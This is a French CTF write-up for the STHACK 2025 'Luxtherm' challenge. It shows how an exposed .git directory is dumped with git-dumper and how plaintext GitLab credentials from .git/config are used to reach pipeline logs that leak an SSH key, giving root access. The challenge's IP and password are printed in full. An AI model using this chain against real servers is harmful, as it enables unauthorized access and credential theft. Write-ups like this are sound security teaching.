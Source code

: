 # Luxtherm - STHACK2025

Ce writeup présente ma solution pour résoudre le challenge `Luxtherm` lors du CTF de la `STHACK 2025` le 23/05/2025.

## 🔎 Reconnaissance / Énumération

Le lien vers le site était directement fourni sur la page du challenge. Hormis un simple bouton cliquable qui ne faisait rien et un texte indiquant la date de la dernière mise en production du site, rien de suspect à première vue.

![](img/luxtherm-site.png)

En utilisant Wappalyzer, j’ai remarqué que le site était hébergé sur un serveur Apache. J’ai donc testé le chemin `/.htaccess`. Malheureusement, cela m’a retourné une erreur 403 😿.

J’ai ensuite essayé d’autres chemins courants au hasard avant de lancer une énumération plus poussée avec ffuf. Par pure chance, le chemin `.git/HEAD` était accessible 🙀.


## 📁 Dump des fichiers sur le serveur Apache

Le fait que le chemin `.git/` soit accessible nous permet de télécharger l’intégralité des fichiers du répertoire courant du serveur Apache, y compris les fichiers du dépôt Git. Ces fichiers sont particulièrement intéressants, car ils contiennent des informations sur les modifications apportées au site. Cela peut inclure des secrets laissés en clair dans le code ou d'autres étourderies des développeurs 👀.

Pour récupérer ces fichiers, j’ai utilisé [`git-dumper`](https://github.com/arthaud/git-dumper), un outil conçu spécifiquement pour exploiter ce type de vulnérabilité.

```sh
git-dumper http://51.15.214.59/.git ~/luxtherm
```

J’ai obtenu plusieurs dossiers et fichiers :

* `.git/`, contenant toutes les informations relatives au dépôt Git.
* `src/`, contenant le script de déploiement du site en prod.
* `var/www/`, contenant les sources de l’application.
* `.gitignore`, qui liste les fichiers ignorés lors des pushs sur le dépôt.
* `.gitlab-ci.yml`, contenant les instructions pour déployer automatiquement le site à chaque push via une [pipeline](https://docs.gitlab.com/ci/pipelines/).

Je me suis d’abord concentré sur le script de déploiement `script.sh` dans le dossier `src/` :

```sh
#!/bin/bash

# Arrêter le script en cas d'erreur
set -e

echo 'Creation du chemin vers la clé SSH privée'
mkdir -p "$HOME/.ssh/"

echo 'Écrire la clé SSH privée dans un fichier'
SSH_PRIVATE_KEY_PATH="$HOME/.ssh/id_rsa"
echo "$SSH_PRIVATE_KEY" > "$SSH_PRIVATE_KEY_PATH"
chmod 600 "$SSH_PRIVATE_KEY_PATH"

echo 'verification'
ls -lisah "$SSH_PRIVATE_KEY_PATH"

echo 'Informations de connexion au serveur'
SERVER_USER="root"
SERVER_IP="51.15.214.59"


# Deployer le site web
scp -r -i "$SSH_PRIVATE_KEY_PATH" -o StrictHostKeyChecking=no var/www/html "$SERVER_USER@$SERVER_IP":/var/www/.

# Commande pour se connecter au serveur et déployer l'application
ssh -i "$SSH_PRIVATE_KEY_PATH" -o StrictHostKeyChecking=no "$SERVER_USER@$SERVER_IP" << 'EOF'
    # Commandes à exécuter sur le serveur

    # cette synthaxe est deprecated, elle est remplacée par le scp qq lignes plus haut
    # git clone https://root.luxtherm:2025sthacK+-/@gitlab.com/root.luxtherm-group/webapp-auto-deploy

    # indication de la date du dernier déploiement
    HORODATE=$(date)
    sed -i "s@MOTIF@$HORODATE@g" /var/www/html/index.html

    # Ajoutez ici d'autres commandes nécessaires pour construire et démarrer votre application
    # Par exemple :
    # npm install
    # npm run build
    # pm2 restart all
EOF

echo 'Supprimer la clé SSH privée après utilisation'
rm "$SSH_PRIVATE_KEY_PATH"
```

Plusieurs informations intéressantes ressortent :

* L’utilisateur pour déployer le site est `root`, et a donc les privilèges les plus élevés.
* L’adresse du dépôt GitLab du projet est : `gitlab.com/root.luxtherm-group/webapp-auto-deploy`.
* Le script utilise une clé SSH lors du déploiement. Si l’on trouve cette clé dans une version précédente du projet via une erreur des développeurs (clé SSH ou fichier `.env` poussé accidentellement), nous pourrions nous connecter en SSH au compte root.

## 🔑 A la recherche de la clé SSH

J’ai commencé par utiliser `git log` pour lister tous les commits du projet :

```bash
git log

commit 0ab08cd06e26350b947341147bd9174c6ea98f8d
Author: ######
Date:   Tue May 20 22:37:28 2025 +0200

    Deploiement auto du site Luxtherm

commit a81b1787a5c8eccb4120dad9ebe9fbd32d1683d8
Author: root luxtherm root.luxtherm@gmail.com
Date:   Tue May 20 19:35:24 2025 +0000

    Modifier script.sh

commit e2adf9251214a15553e016b03e8568a2d0d2d1fb
Author: root luxtherm root.luxtherm@gmail.com
Date:   Tue May 20 19:26:44 2025 +0000

    Modifier script.sh

commit e71e6afa2acfb320817f10af3f63be03ab1402c5
Author: root luxtherm root.luxtherm@gmail.com
Date:   Tue May 20 17:35:05 2025 +0000

    Mettre à jour le fichier .gitlab-ci.yml

commit 0805a52efd200f3645167eb1d99ec2483793be0d
Author: root luxtherm root.luxtherm@gmail.com
Date:   Tue May 20 17:30:00 2025 +0000

    Mettre à jour le fichier .gitlab-ci.yml

commit f9da8bcf0c8a47c38a17745311634aec399174e3
Author: root luxtherm root.luxtherm@gmail.com
Date:   Tue May 20 17:29:31 2025 +0000

    Mettre à jour le fichier .gitlab-ci.yml

commit a11fd1dbf19fb66ecc64baef0cda3858490aa39f
Author: ######
Date:   Tue May 20 19:24:56 2025 +0200

    Premiere version de script de deploiement

commit ef88ce29f019a182d58c43a7dcafcb04e29fac45
Author: root luxtherm root.luxtherm@gmail.com
Date:   Tue May 20 17:17:52 2025 +0000

    Initial commit
```

Après avoir exploré les versions précédentes du projet, je n’ai pas trouvé de clé SSH. Je me suis alors rappelé du fichier `.gitlab-ci.yml` et j’ai décidé d’examiner son contenu :

```yml
stages:
  - Deploy

job_Deploy:
  stage: Deploy
  script:
  - echo 'Pipeline de déploiement du site web en production'
  - echo 'NE PAS MODIFIER LE PIPELINE POUR QUE LE CHALLENGE RESTE JOUABLE POUR LES AUTRES, MERCI'
  - echo 'DEBUG:'$SSH_PRIVATE_KEY
  - chmod u+x src/script.sh
  - src/script.sh
```

**Bingo 🎰 !** À chaque push, la clé SSH est affichée en clair dans la console grâce à la ligne :
`echo 'DEBUG:'$SSH_PRIVATE_KEY`.

Direction le dépôt GitLab pour vérifier les traces d’exécution des pipelines !

Malheureusement encore une fois, je me retrouve face à une erreur 403 ...

Pas le choix le dépôt étant privé et donc accessible uniquement avec le compte de son utilisateur, il va falloir trouver son login/mdp.

Je me suis alors mis à fouiller tout les fichiers dumpés jusqu'à tomber sur le fichier `.git/config` : 
```
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
#root.luxtherm@gmail.com:2025sthacK+-/	
	url = https://root.luxtherm:2025sthacK+-/@gitlab.com/root.luxtherm-group/webapp-auto-deploy
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```
Ce fichier contient normalement seulement des informations sur les branches, les remotes, et d'autres paramètres liés au comportement de Git avec le dépôt. Or, par chance (pour nous) le développeur ayant travaillé sur le projet a laissé son login/mdp en commentaire. 😈

On peut désormais se connecter au compte de luxther et accéder au dépôt Gitlab.

## 📦 Balade sur le dépôt Git

Comme prévu, les fichiers déjà récupérés sont présents.

![](img/Luxtherm-git-1.png)

En examinant les exécutions de pipeline, je suis tombé sur une exécution réussie avec un job "passant".

![](img/Luxtherm-git-3.png)

Et voilà ! La clé SSH était affichée en clair. Il ne restait plus qu’à la reformater correctement et à l’ajouter dans le dossier `.ssh/`.


En me connectant en SSH avec la commande :

```bash
ssh root@51.15.214.59
```

J’ai accédé au serveur en tant que root. Le flag était alors facile à récupérer 😄.
